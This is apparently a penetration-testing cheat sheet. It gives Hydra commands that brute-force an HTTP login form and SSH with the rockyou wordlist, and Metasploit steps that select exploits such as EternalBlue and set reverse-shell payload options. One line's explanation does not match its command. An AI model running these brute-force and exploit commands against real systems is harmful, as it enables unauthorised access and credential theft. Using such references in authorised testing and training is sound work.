 ## 💡 HTTP Form


```
hydra -l molly -P /usr/share/wordlists/rockyou.txt <ip_addr> http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```

- `^USER^` and `^PASS^` are placeholders for Hydra to substitute.
- `F=Login failed` is the failure condition string in the HTTP response.

## 💣 SSH Brute-force

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt <ip_addr> -t 4 ssh -v
```
---
---
---
---
---

# 💥 Metasploit

## 📦 Starting Metasploit
```bash
msfconsole
```

## 🔍 Searching for Exploits
| Command                        | Description                                      |
|---------------------------------|--------------------------------------------------|
| `search <exploit_name>`         | Search for a specific exploit                   |
| `search type:<exploit_type>`    | Search by exploit type (e.g., `search type:exploit/windows`) |
| `search platform:<platform>`    | Search by platform (e.g., `search platform:linux`)  |
| `search name:<name>`            | Search for a specific name                      |

## 🧑‍💻 Selecting an Exploit
```bash
use <exploit_path>
```
- Example: `use exploit/windows/smb/ms17_010_eternalblue`

## ⚙️ Setting Payloads
| Command                       | Description                                 |
|-------------------------------|---------------------------------------------|
| `set PAYLOAD <payload>`        | Set a specific payload                     |
| `show payloads`                | List available payloads                    |
| `set LHOST <local_ip>`         | Set local IP for reverse shell             |
| `set LPORT <port>`             | Set local port for reverse shell           |
| `set RHOST <target_ip>`        | Set remote target IP                       |
| `show options`                 | Display required options for the exploit   |
